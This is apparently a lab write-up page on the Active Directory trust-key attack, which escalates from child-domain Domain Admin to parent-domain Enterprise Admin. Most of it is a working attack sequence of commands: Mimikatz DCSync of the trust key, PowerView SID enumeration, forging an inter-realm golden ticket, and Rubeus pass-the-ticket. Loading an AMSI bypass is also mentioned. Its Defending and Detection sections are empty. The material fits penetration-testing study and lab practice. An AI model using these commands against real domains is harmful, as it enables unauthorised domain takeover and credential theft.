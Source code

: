 # Trust key

## Attacking

### How it works

Once you gain Domain Admin privileges within the child domain its possible to get Enterprise Admin in the parent domain by generating a golden ticket in the child domain with the SID of the Enterprise Admin group.

### Tools

* [MimiKatz](https://github.com/samratashok/nishang/blob/master/Gather/Invoke-Mimikatz.ps1)
* [PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1)

### Executing the attack

The attack is executed from the perspective of already gaining domain admin privileges. This is done in the unconstrained delegation section:

{% content-ref url="../delegation-attacks/unconstrained-delegation/" %}
[unconstrained-delegation](../delegation-attacks/unconstrained-delegation/)
{% endcontent-ref %}

1. For easy execution, login on `WS01` as the `Administrator` user with the password `Welcome01!`.
2. Start PowerShell as Administrator and load a amsi bypass and MimiKatz into memory.

![](<../../../.gitbook/assets/image (71) (1).png>)

3\. DCsync the trust key with MimiKatz:

```
Invoke-Mimikatz -Command '"lsadump::dcsync /user:amsterdam\bank$"'
```

![](<../../../.gitbook/assets/image (9) (1) (2) (1).png>)

4\. Retrieve the SID of the enterprise Admins group, using PowerView:

```
Get-DomainGroup "Enterprise Admins" -Domain bank.local | Select-Object samaccountname, objectsid
```

![](<../../../.gitbook/assets/image (76) (1).png>)

5\. Retrieve the domain SID from the child domain, using PowerView:

```
Get-DomainSid
```

![](<../../../.gitbook/assets/image (64) (1) (2).png>)

6\. Create a TGT for the krbtgt user and save it to disk with MimiKatz:

```
Invoke-Mimikatz -Command '"Kerberos::golden /user:Administrator /domain:<FQDN CHILD DOMAIN> /sid:<SID CHILD DOMAIN> /sids:<SIDS OF ENTERPRISE ADMIN GROUP OF TARGET> /rc4:<TRUST KEY HASH> /service:krbtgt /target:<FQDN PARENT DOMAIN> /ticket:<PATH TO SAVE TICKET>"'
```

![](<../../../.gitbook/assets/image (72) (2).png>)

7\. Create a TGS for the CIFS service with Rubeus.exe using the created TGT:

```
.\Rubeus.exe asktgs /ticket:trustkey.kirbi /service:CIFS/dc01.bank.local /dc:dc01.bank.local /ptt
```

![](<../../../.gitbook/assets/image (28) (2).png>)

List the tickets:

![](<../../../.gitbook/assets/image (13) (2) (1).png>)

## Defending

### Detection



## References

